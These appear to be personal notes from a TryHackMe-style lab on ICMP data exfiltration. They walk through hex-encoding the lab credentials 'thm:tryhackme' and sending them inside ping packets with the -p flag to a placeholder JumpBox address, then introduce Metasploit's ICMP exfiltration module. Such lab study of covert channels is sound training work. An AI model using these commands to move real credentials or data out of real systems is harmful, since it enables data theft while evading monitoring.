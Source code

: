 
##### 1. Performing manual ICMP data exfiltration:
`AttackBox$ ping <JumpBox-ipaddr> -c 1`

	- The IP address should be the IP of the machine you are exfiltrating data on:

![](/assets/img/Pasted image 20230109230150.png)

- We choose to send one ICMP packet from `Host 1` , our AttackBox, to Host 2, the target machine, using the `-c 1` argument from the previous command.
- Now, let's examine the ICMP packet in Wireshark and see what the `Data section` looks like:
![](/assets/img/Pasted image 20230109230321.png)

- The `Wireshark screenshot` shows that the Data section has been selected with random strings.
- It is important to note that this section could be filled with the data that needs to be transferred to another machine.


- The `ping` command in the Linux OS has an interesting ICMP option:

		- "-p" : specifies 16 bytes of data in hex representation to send through the packet. Note that this is only available for Linux OS so the machine we should be exfiltrating data on should be in Linux for us to be able to do this.

- Information about "`-p`" flag:
![](/assets/img/Pasted image 20230109230551.png)

##### 2. Let's say that we need to exfiltrate the following credentials `thm:tryhackme`.
- First, we need to **(1) convert it to its Hex representation** and then **(2) pass it** to the `ping` command using "`-p`" options as follows:
`AttackBox$ echo "thm:tryhackme" | xxd -p`

![](/assets/img/Pasted image 20230109230807.png)

##### 3. Send an ICMP packet to the target machine to exfiltrate data on using the `ping` command:
`AttackBox$ ping <JumpBox-ipaddr> -c 1 -p 74686d3a7472796861636b6d650a`

![](/assets/img/Pasted image 20230109231044.png)

<u>Target machine's reply</u>:
![](/assets/img/Pasted image 20230109231138.png)

	- Note that we are NOT exfiltrating data yet. We're just figuring out if we can send data with ICMP packets to the target machine.


### ICMP Data Exfiltration

- Now that we have the fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data.
- The Metasploit framework uses the same technique explained in the previous section.
- However, it will capture incoming ICMP packets and wait for the "`Beginning of File`" (**BOF**) trigger value.
